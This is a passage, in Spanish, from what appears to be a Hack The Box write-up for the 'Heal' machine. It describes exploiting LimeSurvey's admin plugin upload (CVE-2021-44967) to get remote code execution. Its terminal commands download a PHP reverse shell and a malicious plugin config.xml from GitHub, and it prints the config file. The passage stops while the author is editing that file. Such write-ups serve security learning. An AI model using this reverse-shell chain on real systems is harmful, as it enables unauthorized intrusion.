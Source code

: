 Desde el panel de administración de LimeSurvey, puedo confirmar que el sistema está utilizando la versión 6.6.4. Esta versión resulta vulnerable a RCE [CVE-2021-44967](https://nvd.nist.gov/vuln/detail/cve-2021-44967). El fallo permite a un administrador subir e instalar plugins personalizados desde la interfaz, permitiendo ejecutar código PHP arbitrario si se carga un plugin malicioso, lo que habilita una shell inversa sin necesidad de explotación adicional.

![](assets/img/htb-writeup-heal/heal3_3.png)

Para aprovechar esta falla, utilizo el método publicado por [Y1LD1R1M-1337](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE), el cual consiste en empaquetar una [reverse shell en PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) junto con un archivo `config.xml` estructurado como un plugin válido. Este archivo XML declara la metadata del plugin, así como las versiones de LimeSurvey compatibles.

```terminal
/home/kali/Documents/htb/machines/heal:-$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O revshell.php
/home/kali/Documents/htb/machines/heal:-$ wget https://raw.githubusercontent.com/Y1LD1R1M-1337/Limesurvey-RCE/refs/heads/main/config.xml
```

Descargo ambos archivos pero antes de empaquetarlos, edito el `config.xml` y agrego explícitamente compatibilidad con la `versión 6.0`.

```terminal
/home/kali/Documents/htb/machines/heal:-$ cat config.xml              
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>3xplo1t</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>5.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
```